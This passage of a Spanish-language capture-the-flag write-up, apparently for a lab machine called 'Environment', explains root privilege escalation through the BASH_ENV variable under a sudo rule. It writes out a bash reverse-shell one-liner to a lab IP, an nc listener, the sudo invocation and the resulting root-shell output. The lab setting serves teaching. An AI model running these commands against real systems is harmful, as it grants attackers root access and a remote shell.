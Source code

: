 Dentro de esta directiva veremos la variable de entorno `BASH_ENV`, la cual le dice qué archivo ejecutar antes de ejecutar un script, podemos encontrar la definición en [`gnu.org`](https://www.gnu.org/software/bash/manual/bash.html#index-BASH_005fENV).

> Si esta variable se establece cuando se invoca Bash para ejecutar un script de shell, su valor se expande y se utiliza como nombre de un archivo de inicio que se lee antes de ejecutar el script. Bash no utiliza `PATH` para buscar el nombre de archivo resultante. 
{: .notice--info}

Cuando Bash se inicia de forma no interactiva, por ejemplo, para ejecutar un script, busca la variable `BASH_ENV` en el entorno

~~~ bash
if [ -n "$BASH_ENV" ]; then . "$BASH_ENV"; fi
~~~ 

> Sabiendo todo esto, podríamos pasar un script en la variable `BASH_ENV` al momento de ejecutar `systeminfo`, de esta forma la variable se conservará y ejecutará nuestro recurso antes
{: .notice--warning} 

### Exploiting

Para continuar, crearemos un nuevo script de `bash` que intente ejecutar un comando, por ejemplo enviar una reverse shell hacia nuestra IP por un puerto. Además debemos asignar permisos de ejecución al recurso

~~~ bash
hish@environment:~$ echo 'bash -i >& /dev/tcp/10.10.14.169/443 0>&1' > /tmp/privesc
hish@environment:~$ chmod +x /tmp/privesc
~~~

Iniciaremos un listener que se encargue de recibir la conexión por el puerto que seleccionamos

~~~ bash
nc -lvnp 443
listening on [any] 443 ...
~~~

Ahora ejecutaremos el script `systeminfo` pasando la variable de entorno antes de ejecutar el comando

~~~ bash
hish@environment:~$ BASH_ENV=/tmp/privesc sudo systeminfo 
~~~

Desde nuestro listener deberíamos recibir de forma inmediata una consola como el usuario `root`

~~~ bash
connect to [10.10.14.169] from (UNKNOWN) [10.10.11.67] 48294
root@environment:/home/hish# id
id
uid=0(root) gid=0(root) groups=0(root)
root@environment:/home/hish# script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
/tmp/privesc: connect: Connection refused
/tmp/privesc: line 1: /dev/tcp/10.10.14.169/443: Connection refused
root@environment:/home/hish# ^Z
[1]  + 282950 suspended  nc -lvnp 443
root@parrot content # stty raw -echo;fg       
[1]  + 282950 continued  nc -lvnp 443
                                     reset xterm
~~~
